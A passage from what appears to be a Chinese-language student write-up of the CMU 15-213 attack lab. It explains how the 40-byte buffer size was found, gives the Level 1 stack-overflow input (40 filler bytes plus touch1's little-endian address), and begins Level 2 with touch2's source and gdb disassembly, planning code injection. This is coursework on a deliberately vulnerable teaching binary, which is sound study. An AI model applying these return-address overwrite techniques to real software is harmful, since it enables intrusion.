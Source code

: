 ```
	course	15213-f15
	lab	attacklab
	result	1:FAIL:0xffffffff:ctarget:0:61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61
```

我们发现，在输入39个字符时没有问题，在输入40个字符时出现了程序走到了不合法的位置。在输入41个字符的时候出现了段错误。结合字符串最后还有一个字符`\0`，于是我们的缓冲区长度应该是40。在接下来的尝试中，我们只需要把没有用的部分填充，比如用`a`，然后再在合适的位置进行操作即可。

回到正题，通过在gdb调试器中执行`disas touch1`，得到touch1的地址`0x4017c0`，于是我们的答案就出来了，直接前面40个随意填充，后面跟上`touch1`的地址即可，答案就是：

```
61 61 61 61 61 61 61 61
61 61 61 61 61 61 61 61
61 61 61 61 61 61 61 61
61 61 61 61 61 61 61 61
61 61 61 61 61 61 61 61
c0 17 40
```

注意这里的语序问题，按照小端序逆着来写。

### Level 2

第二关的函数是`touch2`，讲义上它的代如下：

```
1 void touch2(unsigned val)
2 {
3      vlevel = 2; /* Part of validation protocol */
4      if (val == cookie) {
5      printf("Touch2!: You called touch2(0x%.8x)\n", val);
6      validate(2);
7      } else {
8          printf("Misfire: You called touch2(0x%.8x)\n", val);
9          fail(2);
10     }
11     exit(0);
12 }
```

这里`touch2`比之前多了一个参数，而且还要求这个参数是你的cookie的值才能通过。

```
(gdb) disas touch2
Dump of assembler code for function touch2:
   0x00000000004017ec <+0>:     sub    $0x8,%rsp
   0x00000000004017f0 <+4>:     mov    %edi,%edx
   0x00000000004017f2 <+6>:     movl   $0x2,0x202ce0(%rip)        # 0x6044dc <vlevel>
   0x00000000004017fc <+16>:	cmp    0x202ce2(%rip),%edi        # 0x6044e4 <cookie>
   0x0000000000401802 <+22>:	jne    0x401824 <touch2+56>
```

我们查看一下`touch2`的汇编代码后发现，第16行这里是在拿cookie的值和`%edi`中的值作比较，于是问题的关键就在于如何把cookie的值赋给`%edi`。这就需要我们自己注入代码了。
